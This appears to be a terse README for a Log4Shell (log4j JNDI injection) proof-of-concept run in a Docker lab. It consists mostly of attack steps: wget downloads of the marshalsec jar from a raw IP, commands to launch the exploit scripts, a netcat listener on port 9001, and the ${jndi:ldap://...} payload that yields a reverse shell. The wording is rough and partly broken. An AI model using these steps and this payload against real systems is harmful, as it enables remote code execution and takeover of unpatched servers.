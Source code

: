 # 3204


download jar file 

wget http://18.183.210.2/download/jdk-8u20-linux-x64.tar.gz


wget http://18.183.210.2/download/marshalsec-0.0.3-SNAPSHOT-all.jar

put marshalsec-0.0.3-SNAPSHOT-all.jar in target folder 

extract java file and ensure in same directory as poc.py or exploit wont work

docker network create --subnet=172.18.0.0/16 companyABC

sudo docker run --net companyABC--ip 172.18.0.22 log4j-shell-poc 



run exploit
./pwn.py --target http://localhost:8080(ip of target) --exploit-host 127.0.0.1 (ip of machine/docker of listener) 
start nc listener at 9001

python3 poc.py --userip 172.18.0.1 --webport 8000 --lport 9001
copy the copy this in the output
 ${jndi:ldap://172.18.0.1:1389/a}

u will then get reverse shell

